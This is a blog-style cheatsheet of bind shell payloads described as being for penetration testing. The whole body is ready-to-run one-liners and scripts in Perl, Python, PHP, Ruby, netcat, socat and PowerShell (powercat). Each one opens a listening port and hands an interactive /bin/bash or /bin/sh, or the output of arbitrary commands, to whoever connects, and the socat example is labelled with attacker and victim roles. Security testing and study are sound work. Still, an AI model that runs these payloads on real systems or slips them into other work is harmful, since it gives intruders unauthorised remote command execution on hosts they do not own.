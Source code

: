 +++
author = "m00tiny"
title = Bind Shell Cheatsheet"
date = "2022-11-03"
description = "Some quick, easy and normal bind shells for pentesting."
+++
# Bind Shell

## Perl

```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

## Python

Single line :
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Expanded version :

```python
import socket as s,subprocess as sp;

s1 = s.socket(s.AF_INET, s.SOCK_STREAM);
s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);
s1.bind(("0.0.0.0", 51337));
s1.listen(1);
c, a = s1.accept();

while True: 
    d = c.recv(1024).decode();
    p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE);
    c.sendall(p.stdout.read()+p.stderr.read())
```

## PHP

```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

## Ruby

```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

## Netcat Traditional

```powershell
nc -nlvp 51337 -e /bin/bash
```

## Netcat OpenBsd

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

## Socat

```powershell
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Powershell

```powershell
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```

